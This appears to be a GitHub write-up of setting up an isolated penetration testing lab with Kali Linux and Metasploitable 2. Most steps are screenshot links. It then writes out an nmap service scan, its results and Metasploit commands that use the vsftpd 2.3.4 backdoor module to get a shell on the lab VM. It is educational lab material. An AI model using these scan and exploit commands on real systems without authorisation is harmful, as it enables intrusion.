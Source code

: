 # Setting Up a Penetration Testing Lab

Objective:

Develop a controlled environment for ethical hacking and penetration testing to understand and exploit system
vulnerabilities in a safe and secure manner.


Tools Used:


● VirtualBox


● Kali Linux


● Metasploit


● Nmap


Methodology:
1. Installed and configured Kali Linux as the penetration testing machine.
2. Deployed Metasploitable 2 and other vulnerable virtual machines to simulate real-world targets.
3. Used Nmap for network scanning and Metasploit for exploiting known vulnerabilities.

   
Challenges Faced & Solutions:


● Challenge: Ensuring the safety and security of the lab environment.

●  Solution: Configured the lab to be completely isolated from any external networks to prevent
accidental exposure.

Outcome:

Developed a comprehensive understanding of ethical hacking techniques and how to safely perform
penetration testing. This experience reinforced the importance of maintaining secure lab environments.


## Steps


Step 1

Download Kali Linux 

https://imgur.com/a/v0Sw94K

Import Kali Linux into Virtual Box

https://imgur.com/a/FfjZw29

Step 2 Download Metasploitable 2

https://imgur.com/a/ryM9dii

Extract zip file for Metasploitable 2

https://imgur.com/a/ytJPYny

Add vdmk file to virtual box

https://imgur.com/a/cbqQ15Z

Create a new VM in Virtual Box for Metasploitable 2

https://imgur.com/a/xvRcZCj

Start Metasploitable 2 Virtual Machine

https://imgur.com/a/mZfOQhu

Step 3 Configure Network Settings

https://imgur.com/a/t3orTE7

Step 4: Verfy Network Connectivity


Verify Network Connectivity on Kali Linux

https://imgur.com/a/4ybqxFa

Verify Network Connectivity on Metasploitable 2 

https://imgur.com/a/HQ9eKvz

Test Connectivity

https://imgur.com/a/EmxXlWy

 Step 5: Set Up Penetration Testing Tools on Kali Linux

 Update Kali Linux

https://imgur.com/a/cHq3NQc

Install Additional Tools

https://imgur.com/a/2cQh5Of

https://imgur.com/a/bjQrJRq

https://imgur.com/a/nMII0th

Step 6: Conduct Basic Penetration Testing

Network Scanning with Nmap

https://imgur.com/a/PHpjy7j

https://imgur.com/a/Mk456dC

Exploitation with Metasploit

https://imgur.com/a/zvA75iV

Search for an Exploit to use against Metasploitable 2

https://imgur.com/a/uWoLYhi

Use the exploit and set the target

https://imgur.com/a/MtOZwo1

https://imgur.com/a/cD93YsN

Step 7: Document Network Diagram

https://imgur.com/a/sWNLkej

Scan Results & Exploitation Details



Step 7: Network Diagram

https://imgur.com/a/sWNLkej

   

A basic network setup includes:
- Kali Linux VM: Offensive security testing machine.
- Metasploitable 2 VM: Deliberately vulnerable virtual machine for testing.
- Host-only Network**: Allows VMs to communicate with each other and the host machine without external network access.

Here’s a basic visual representation:

1. Kali Linux VM
2. Metasploitable 2 VM
3. Host-Only Network (192.168.x.x)

---

 2. Documenting the Nmap Scan Results

On the Kali Linux VM, you can run an Nmap scan to identify open ports and services on the Metasploitable 2 VM.

 Nmap Command

```bash
nmap -sV -A 192.168.x.y
```

- `-sV`: Detects version info for services.
- `-A`: Enables OS detection, script scanning, and traceroute.
- Replace `192.168.x.y` with the IP of the Metasploitable 2 VM.


| Port | State | Service         | Version            |
|------|-------|-----------------|--------------------|
| 21   | open  | ftp             | vsftpd 2.3.4      |
| 22   | open  | ssh             | OpenSSH 4.7p1     |
| 23   | open  | telnet          | -                 |
| 25   | open  | smtp            | Postfix smtpd     |
| 80   | open  | http            | Apache 2.2.8      |
| 3306 | open  | mysql           | MySQL 5.0.51a     |
| 5432 | open  | postgresql      | PostgreSQL DB     |
| 8180 | open  | http-alt        | Apache Jserv 1.3  |




3. Exploitation Steps**

Using vsftpd 2.3.4 which is a known vulnerability in Metasploitable 2:

1. Search for Exploits in Metasploit
   ```bash
   msfconsole
   ```
   ```bash
   search vsftpd
   ```

2. Select the Exploit Module
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   ```

3. Set the Target Host
   ```bash
   set RHOSTS 192.168.x.y
   ```

4. Run the Exploit**
   ```bash
   exploit
   ```

5. Gain Access**
   After running the exploit, you may gain a shell on the target machine.




 

  












